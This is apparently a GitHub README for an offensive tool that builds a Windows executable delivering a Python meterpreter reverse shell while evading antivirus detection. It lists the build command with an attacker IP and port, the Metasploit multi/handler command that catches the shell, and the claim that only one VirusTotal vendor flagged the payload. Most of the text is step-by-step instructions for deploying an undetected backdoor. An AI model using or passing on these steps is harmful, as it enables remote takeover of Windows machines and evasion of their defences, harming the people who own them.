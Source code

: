 ![GitHub language count](https://img.shields.io/github/languages/count/0xCyberY/Antivirus-Evasion-Py2exe)
![GitHub repo size](https://img.shields.io/github/repo-size/0xCyberY/Antivirus-Evasion-Py2exe)
![Lines of code](https://img.shields.io/tokei/lines/github/0xCyberY/Antivirus-Evasion-Py2exe)
![GitHub](https://img.shields.io/github/license/0xCyberY/Antivirus-Evasion-Py2exe)
![GitHub commit activity](https://img.shields.io/github/commit-activity/w/0xCyberY/Antivirus-Evasion-Py2exe)
![Twitter Follow](https://img.shields.io/twitter/follow/0xCyberY?style=social)

# Antivirus-Evasion-Py2exe
Simple python script to evade antiviruses on fully patched and updated Windows environments using a py2exe.

# Note: This script works only on Windows OS

# Prerequisite:
1. [Install Python 2.7.16 x86 for Windows](https://www.python.org/ftp/python/2.7.16/python-2.7.16.msi)
2. [Install Py2exe 32 bits for Python 2.7](https://sourceforge.net/projects/py2exe/files/py2exe/0.6.9/py2exe-0.6.9.win32-py2.7.exe/download)

## Usage:
```
python aepy2exe.py -ip 192.168.1.10 -p 443
```

```
C:\>python aepy2exe.py -h
                                Antivirus Evasion Py2exe
 ,.      .                         ,--.                         ;-.      ,-.
/  \     |   o     o               |                o           |  )        )
|--| ;-. |-  . . , . ;-. . . ,-.   |-   . , ,-: ,-. . ,-. ;-.   |-'  . .   /  ,-. . , ,-.
|  | | | |   | |/  | |   | | `-.   |    |/  | | `-. | | | | |   |    | |  /   |-'  X  |-'
'  ' ' ' `-' ' '   ' '   `-` `-'   `--' '   `-` `-' ' `-' ' '   '    `-| '--' `-' ' ` `-'
                                                                     `-'
usage: aepy2exe.py [-h] [-e EXECUTE] [-ip ATTACKER_IP] [-p PORT]

Antivirus Evasion Py2exe

optional arguments:
  -h, --help            show this help message and exit
  -ip ATTACKER_IP, --attacker_ip ATTACKER_IP
                        specified attacker IP
  -p PORT, --port PORT  specified attcaker port

Example:
        C:\>python aepy2exe.py -e py2exe -ip <ip_address> -p <port>
```
``
The script will generate CyberY.exe.
``
![Output](https://github.com/0xCyberY/Antivirus-Evasion-Py2exe/blob/main/Output.png)

In case there is an error such as The system cannot open the device or file specified.
**Try hard!!**
#### Run the CyberY.exe
```
C:\>.\CyberY.exe
```
#### On attacker machine (Kali)
```
sudo msfconsole -x "use exploit/multi/handler; set PAYLOAD python/meterpreter/reverse_tcp; set LPORT 443; set LHOST 192.168.1.10"

msf6 exploit(multi/handler) > exploit
```
# Conclusion
Keep in mind that attempting antivirus bypass is a game. Whenever a new evasion technique gets popular, antivirus vendors will eventually learn about itand update their signatures database to block it. Then, new evasion techniques will a rise, which will make vendors to add it to their signature database, and so on.

By the time of this writing, the payload was flagged as malicious by only one vendor on Virus Total.

![virus_total](https://github.com/0xCyberY/Antivirus-Evasion-Py2exe/blob/main/virus%20total.png)


**Credit** [Marcelo Sacchetin](https://infosecwriteups.com/antivirus-evasion-with-python-49185295caf1)
